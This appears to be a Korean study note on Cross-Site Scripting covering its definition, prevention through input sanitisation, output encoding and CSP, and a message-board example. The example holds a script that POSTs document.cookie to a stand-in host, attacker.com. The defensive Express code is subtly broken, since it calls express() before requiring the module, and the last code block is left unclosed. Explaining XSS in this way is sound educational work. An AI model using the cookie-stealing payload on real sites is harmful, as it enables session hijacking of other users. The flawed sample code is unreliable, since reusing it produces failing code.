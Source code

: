 ```yaml
---
created: 2025-03-30 21:07:44 +0900
updated: 2025-03-31 21:07:06 +0900
title: 'Cross-Site Scripting(XSS)'
tags: ['Web']
---
```


## 개요

-   **정의**: 공격자가 웹 사이트에 악성 스크립트를 삽입하여 다른 사용자가 해당 페이지를 볼 때 실행되도록 하는 공격
-   **작동 방식**:
	1.  공격자는 게시판, 댓글, URL 파라미터 등을 통해 악성 스크립트를 웹 서버에 삽입함
	2.  피해자가 해당 페이지를 방문하면 악성 스크립트가 피해자의 브라우저에서 실행함
	3.  스크립트는 쿠키, 세션 토큰 등 민감한 정보를 탈취하거나, 웹 페이지의 내용을 변조하거나, 사용자를 악성 사이트로 리디렉션할 수 있음
	
## 예방

-   입력 값 검증 (Input Validation): 사용자 입력을 받을 때 HTML 태그, 특수 문자 등을 필터링하거나 이스케이프 처리함
-   출력 값 인코딩 (Output Encoding): 웹 페이지에 데이터를 출력할 때 HTML 엔티티로 인코딩하여 스크립트가 실행되지 않도록 함
-   Content Security Policy (CSP) 설정: 브라우저가 특정 출처에서만 스크립트를 실행하도록 제한함

## 예시

**시나리오:** 웹사이트의 게시판 기능에 XSS 취약점이 존재하는 경우

1.  **공격:**

    ```html title="공격자는 다음과 같은 악성 스크립트가 포함된 게시글 작성"
    <script>
      fetch('http://attacker.com/steal', {
        method: 'POST',
        body: document.cookie,
        mode: 'no-cors' // CORS 우회
      });
    </script>
    ```

2.  **영향:**

    -   다른 사용자가 해당 게시글을 포함한 페이지를 방문하면, 스크립트가 실행됨
    -   스크립트는 방문자의 쿠키 정보를 공격자의 서버로 전송

3.  **대비 방법:**

    -   **입력 값 검증 (Sanitization):**
	```javascript caption="게시글 입력 시 HTML 태그를 제거하거나, 특수 문자를 이스케이프 처리"
	const app = express();
	const express = require('express');
	const sanitizeHtml = require('sanitize-html');

	app.use(express.urlencoded({ extended: true }));

	app.post('/post', (req, res) => {
	  const dirty = req.body.content;
	  const clean = sanitizeHtml(dirty, {
	    allowedTags: sanitizeHtml.defaults.allowedTags.concat([ 'img' ]),
	    allowedAttributes: {
	      'img': [ 'src', 'alt' ]
	    }
	  });
	  console.log(clean);
	  res.send('Post received');
	});
	```

    -   **출력 값 인코딩 (Escaping):**
	```html caption="게시글을 화면에 표시할 때 HTML 엔티티로 인코딩"
	<%- post.content %>  // XSS 취약
	<%= post.content %>  // 안전 (HTML 이스케이프)
	```

    -   **CSP 설정:**
	```javascript caption="HTTP 응답 헤더에 Content-Security-Policy를 설정하여 허용된 스크립트 출처를 명시"
	app.use((req, res, next) => {
	  res.setHeader(
	    'Content-Security-Policy',
	    "default-src 'self'; script-src 'self'"
	  );
	  next();
	});

## 참고

- Google Gemini 답변

